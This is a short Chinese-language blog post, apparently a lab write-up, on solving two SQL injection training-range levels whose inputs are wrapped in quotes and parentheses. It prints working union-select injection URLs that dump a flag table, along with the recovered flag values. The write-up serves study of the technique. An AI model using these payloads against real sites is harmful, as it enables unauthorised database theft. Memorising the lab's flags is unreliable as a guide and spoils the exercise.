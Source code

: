 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 - 引号括号错误注入
categories: [安全, SQL注入]
description: 掌控安全 SQL 注入靶场练习 - 引号括号错误注入
keywords: SQL 注入
---
```


# 掌控安全 SQL 注入靶场练习 - 引号括号错误注入

根据之前的经验，已经猜测出过关 Flag 的值了。

接下来两关是  **引号** 与 **括号** 的组合。


## 0x01 括号单引号

1. 注意闭合 单引号 和 括号

```sql
--- 1. 注意闭合 单引号 和 括号
http://vulhub.example.com:81/Pass-03/index.php?id=1') and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

--- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

## 0x02 括号双引号

1. 注意闭合 单引号 和 括号

```sql
--- 1. 注意闭合 双引号 和 括号
http://vulhub.example.com:81/Pass-04/index.php?id=1") and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

--- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```